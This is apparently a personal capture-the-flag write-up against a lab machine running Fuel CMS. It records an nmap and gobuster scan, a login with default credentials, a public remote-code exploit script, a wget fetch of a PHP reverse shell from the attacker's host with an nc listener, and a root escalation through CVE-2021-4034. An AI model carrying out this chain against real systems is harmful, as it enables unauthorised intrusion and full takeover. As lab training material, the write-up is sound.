 export h_ip=10.18.25.169
export ip=10.10.146.191

# recon and scanning

## nmap
- `sudo nmap -sC -sV -oN nmap.log $ip`
  - only one port shown to be open, might need to do a more elaborate port scanning
  - shows the presence of robots.txt

## gobuster
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`

# process
- opening http://10.10.146.191/robots.txt shows the possibility of a dir called fuel
- the home page shows that it is a newly installed cms and setup is not complete yet.
- also the default credentials are given in the home page, so using that we are able to login.
- searching for any known exploits for the cms version shown in the home page as well.
- under `pages` dir in the admin panel, we can see there is a upload and create pages buttons.
  - upload feature was not working for some reason, so trying create.
- I might be missing something here. so this might be the long way around.
  - I ran the exploit 
    - `python3 50477.py -u http://10.10.146.191/`
    - and using this we can run any command we want. 
    - started a nc listener, edited a php reverse shell with host ip and port
    - then I started up an http server using python in my host system and put the reverse shell php file in that directory so that I can issue wget $ip/sh.php command in the web root.
    - did that and then accessed that reverse shell file from browser to get the shell
    - after getting it I checked /home/<username> directory to see if there are any flags, 
    - got the first flag from here.
    - copied linpeas.sh by using the local http server and executed it. It showed several possible vulnerabilities along with `https://github.com/berdav/CVE-2021-4034`
    - So used it to gain root access. and our final flag was there in the root.txt which was located at the root's home dir.